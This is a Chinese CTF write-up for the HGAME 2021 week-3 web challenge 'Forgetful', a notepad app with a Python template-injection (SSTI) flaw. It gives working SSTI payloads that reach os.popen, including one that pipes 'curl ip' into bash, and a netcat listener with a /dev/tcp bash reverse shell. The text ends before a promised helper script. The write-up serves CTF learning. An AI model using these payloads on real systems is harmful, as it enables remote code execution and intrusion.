 > 原文链接: https://www.anquanke.com//post/id/231948 


# HGAME 2021 week3-web wp


                                阅读量   
                                **122462**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01bb34ac6669ccf870.jpg)](https://p0.ssl.qhimg.com/t01bb34ac6669ccf870.jpg)



作者：wh1sper@星盟

## Level – Week3

### <a class="reference-link" name="Forgetful"></a>Forgetful

考点：简单python-SSTI

[![](https://p4.ssl.qhimg.com/t01d04ce9cd2dc320de.png)](https://p4.ssl.qhimg.com/t01d04ce9cd2dc320de.png)

题目是一个记事本，添加描述的时候存在SSTI，在查看页面可以看到SSTI已经成功了：

[![](https://p2.ssl.qhimg.com/t013043f41c26080031.png)](https://p2.ssl.qhimg.com/t013043f41c26080031.png)

最为常规的payload：

```
`{``{`[].__class__.__mro__[1].__subclasses__()`}``}`
`{``{`[].__class__.__mro__[1].__subclasses__()[167].__init__.__globals__.__builtins__.__import__('os').popen('ls /').read()`}``}`
`{``{`[].__class__.__mro__[1].__subclasses__()[167].__init__.__globals__.__builtins__.__import__('os').popen('curl ip|bash').read()`}``}`
```

因为命令执行处有waf，所以可以选择直接弹shell：

```
nc -lvnp 8888
bash -i &gt;&amp; /dev/tcp/ip/8888 0&gt;&amp;1
```

姿势还是比较常规；

分享一个从`[].__class__.__mro__[1].__subclasses__()`查找模块位置的脚本：
